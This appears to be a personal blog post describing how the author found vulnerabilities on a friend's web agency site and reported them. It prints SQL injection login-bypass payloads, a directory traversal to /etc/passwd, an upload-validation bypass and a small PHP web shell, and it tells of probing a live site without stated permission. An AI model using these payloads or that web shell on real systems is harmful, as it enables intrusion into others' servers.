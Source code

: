 ```yaml
---
title:  "A Web Agency's Vulnerable Website"
date:   2016-01-23 00:00:00
description: One Fine Evening's Pastime
---
```


This article covers a company profile website. The company is owned by a friend of mine. He runs a web agency, offering his clients custom applications based on a CMS they developed. All of the things mentioned in this article has been reported to the agency to be fixed.

It should be noted not every version of their CMS is vulnerable. A later version of their CMS used in a SaaS business run by the same company is not vulnerable to the SQL injection on the admin login form and directory indexing.

#### How It Began

The story started in early November 2015. I found that [directory indexing](https://www.owasp.org/index.php/OWASP_Periodic_Table_of_Vulnerabilities_-_Directory_Indexing) was enabled on his web agency's company profile website. After looking at the files I could see, I found out the website's admin login page and the structure of their company's CMS.

Knowing that he's running another business, I tried checking out his other business' website. Directory indexing was not enabled in this site, but I found out that they're using the same CMS engine.

I notified him for the directory indexing on his web agency (we'll call it Alpha Web Agency), and told him that directory indexing leaked some information about the structure for his SaaS business' website (we'll call it Beta Online Services). It was fixed after a few days.

That's how I gain a little knowledge on their CMS structure, and how I could perform the next steps specifically on the admin panel.

#### Two Months Later

On a Saturday evening, I decided to come back to Alpha Web Agency's website. I didn't really expect to find anything there, I just want to kill some time while waiting for a software installation to finish.

I checked once again to make sure that directory indexing is not enabled on the site. After that, I went straight to the admin login form, as I already know the exact path.

I tried to use this login credentials on the login form.

~~~
Username: '
Password: '
~~~

The application gave me an unexpected response.

![Login Response](/assets/images/posts/alpha-web-agency-01.png)

The login form is vulnerable to SQL injection. I didn't try it when I went to Alpha Web Agency's site in November 2015. I tried to bypass the authentication sequence.

~~~
Username: ' OR 1=1--
Password: ' OR 1=1--
~~~

I still got the same response as before. So I tried another one.

~~~
Username: ' OR 1=1#
Password: ' OR 1=1#
~~~

And the admin panel is served.

![Admin Panel](/assets/images/posts/alpha-web-agency-02.png)

The navigation in the admin panel seems to be vulnerable to directory traversal, and I tried to insert the path to `/etc/passwd` file as the parameter value.

![Directory Traversal](/assets/images/posts/alpha-web-agency-03.png)

The admin can upload images in several menu functions. The image files should be limited to `jpg`, `gif`, and `png` files. But it's only validated with JavaScript, disabling the form submission button to be clicked when the script detected invalid file extension.

We can always disable JavaScript on modern browsers, and I successfully uploaded a PHP file.

![Upload Validation Bypass](/assets/images/posts/alpha-web-agency-04.png)

This is the file I uploaded.

~~~php
<?php
echo '<pre>';
echo shell_exec($_GET['cmd']);
echo '</pre>';
?>
~~~

The PHP configuration on the server prevents the `shell_exec` from running, but it should be possible to do other things with an uploaded PHP file.

Beta Online Services' website is not vulnerable to SQL injection on the login form. But it's possible that it also suffers from the directory traversal vulnerability and missing upload validation on the backend. Beta Online Services is started a few years after Alpha Web Agency, therefore I assume that it's using a newer version of the CMS. Hence, some of the vulnerabilities has been fixed for Beta Online Services' website.

#### Conclusion

The report regarding the existing vulnerabilities has been sent to Alpha Web Agency, and they should be on the process of patching it. But maybe we need to have some talk about how the vulnerabilities could exist.

It's a small company run mainly by the owner. The owner started out freelancing by himself, and after a while he started to build components for future projects. He ended up developing a CMS and templates for projects. After a while, he hired a few people to help with the projects and the company is formed.

The CMS and templates might be built with project timeline in mind, and focused mainly just to have the functions running. The company is a very small company with only around five workers including the owner himself. Their hands being full with keeping up with the clients' requests in tight deadlines might be one reason that they didn't have much time to review the security of their system. Not to mention that they're also need manpower to keep Beta Online Services running.

To prevent similar problems from appearing in the future, the company might need to spare some time reviewing their code, examining their server configurations, and testing their system's security. Maybe some more manpower will help, especially security-aware web developers and administrators.